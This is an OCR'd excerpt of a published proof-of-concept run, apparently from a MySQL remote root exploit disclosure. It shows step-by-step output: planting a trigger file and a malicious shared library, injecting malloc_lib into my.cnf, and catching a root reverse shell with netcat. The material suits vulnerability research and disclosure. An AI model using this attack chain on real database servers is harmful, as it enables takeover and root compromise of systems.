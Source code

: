 ~~~~~~~~~~~~~~~~~~~~~~~~~

Discovered/Coded by:

Dawid Golunski



[+] Connecting to target server 192.168.1.10 and target mysql account 'attacker@192.168.1.10' using DB 'pocdb'

[+] The account in use has the following grants/perms: 

GRANT FILE ON *.* TO 'attacker'@'%' IDENTIFIED BY PASSWORD <secret>
GRANT SELECT, INSERT, CREATE ON `pocdb`.* TO 'attacker'@'%'

[+] Compiling mysql_hookandroot_lib.so

[+] Converting mysql_hookandroot_lib.so into HEX

[+] Saving trigger payload into /var/lib/mysql/pocdb/poctable.TRG

[+] Dumping shared library into /var/lib/mysql/mysql_hookandroot_lib.so file on the target

[+] Creating table 'poctable' so that injected 'poctable.TRG' trigger gets loaded

[+] Inserting data to `poctable` in order to execute the trigger and write data to the target mysql config /etc/mysql/my.cnf

[+] Showing the contents of /etc/mysql/my.cnf config to verify that our setting (malloc_lib) got injected

[mysql]
#no-auto-rehash # faster start of mysql but no tab completition

[isamchk]
key_buffer              = 16M

!includedir /etc/mysql/conf.d/
/usr/sbin/mysqld, Version: 5.5.50-0+deb8u1 ((Debian)). started with:
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock
Time                 Id Command    Argument
160912  8:48:41    44 Query     select "

# 0ldSQL_MySQL_RCE_exploit got here :)

[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'

[abyss]
" INTO void
                   44 Query     SET global general_log = off

[+] Looks messy? Have no fear, the preloaded lib mysql_hookandroot_lib.so will clean up all the mess before mysqld daemon even reads it :)

[+] Everything is set up and ready. Spawning netcat listener and waiting for MySQL daemon to get restarted to get our rootshell... :)

listening on [any] 6033 ...

connect to [192.168.1.20] from dbserver [192.168.1.10] 36932
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
~~~~~~~~~~~~~~~~~~~~~~~~~